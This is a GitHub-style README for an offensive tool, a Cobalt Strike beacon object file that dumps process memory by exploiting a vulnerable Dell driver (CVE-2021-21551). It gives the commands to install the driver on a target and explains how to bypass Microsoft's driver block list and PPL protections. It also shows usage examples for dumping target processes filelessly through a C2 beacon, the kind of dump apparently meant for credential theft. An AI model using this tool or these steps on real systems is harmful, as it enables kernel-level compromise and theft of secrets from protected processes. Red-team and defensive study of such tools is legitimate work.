

# theHandler
BOF to dump process memory with handle manipulation features using Bring Your Own Vulnerable Driver (BYOVD).

Feel free to update the kernel driver exploit in this code to use it on machines that employ Microsoft's [driver block list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules). This public release uses CVE-2021-21551.

**The driver block list will NOT apply if the target machine does not have VBS/HVCI enabled, making it possible to install and exploit this vulnerable driver on up-to-date systems.**

Example screenshots:



This BOF has been tested on the following Windows builds:
- Windows 10 build 19045
- Windows Server 2019 build 17763
- Windows Server 2012 build 9600

This BOF has been tested with these C2 frameworks:
- Cobalt Strike

*You can try running theHandler a second time if it outputs kernel memory addresses (starting in ffff) but fails to dump your target process. Kernel address output means the exploit works to read/write memory on your target system but theHander could not find your handle in the kernel.*

## Requirements
The vulnerable [dbutil_2_3.sys](./dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

Note: This driver is in Microsoft's block list. Installation is blocked on many systems.

Execute theHandler from medium integrity or higher. You must be in high integrity to install the vulnerable driver.

## Usage
**Important Notes:**
- Avoid the DECOY_PID option if the TARGET_PID process might be exited before or during the Minidump (May cause BSOD).
- Fileless minidumps are a work in progress. Large minidump files causes it to fail currently; opt to save dumps to disk.

After downloading your minidump file, decrypt it with [decryptMinidump.py](./decryptMinidump.py) (`python3 decryptMinidump.py <minidump_file>`).

```
Create a memory dump of a target process and download it filelessly through beacon. Use the elevate and/or decoy arguments to bypass PPL with a vulnerable driver.
NOTE: The vulnerable driver you use MUST be manually uploaded and installed on the target machine.

[TARGET_PID]     = Target PID for memory dump. Use this argument alone for a standard minidump without kernel manipulation
[ELEVATE_HANDLE] = Set to 1 to open a low privilege handle and increase its access through the kernel. Set to 0 to open a normal handle
[DECOY_PID]      = Set to the PID of a benign process. Thehandler will open this process and tamper with its handle to dump your target process
[DUMP_FILENAME]  = (WIP) Filename to save encrypted minidump on disk. The dump will be downloaded in your current working directory.

Run thehandler without arguments to retrieve the Windows build number of the target system.

Usage:
thehandler [TARGET_PID] [ELEVATE_HANDLE] [DECOY_PID] [DUMP_FILENAME]
```

## Examples
Standard Minidump for PID 423:
```
thehandler 423 0 0 dumpfile.log
```

Fileless Minidump for PID 423:
```
thehandler 423
```

Fileless Minidump with decoy process for PID 423:
```
thehandler 423 0 1139
```

Fileless Minidump with decoy process AND elevated handle for PID 423:
```
thehandler 423 1 1139
```

## Stability
TheHandler uses an offset table that covers kernel offsets for most Windows builds (thanks to the [Vergilius Project](https://www.vergiliusproject.com) for documentation on offsets). Execute theHandler without supplying arguments to check if the current machine is a supported build or not.

**NOTE: This tool reads and writes in kernel memory, meaning there is an inherent risk of Blue Screen of Death (BSOD) during execution. Always test this tool in a lab environment on the exact version of Windows you plan to execute on.**

The exploit used (CVE-2021-21551) is highly stable.
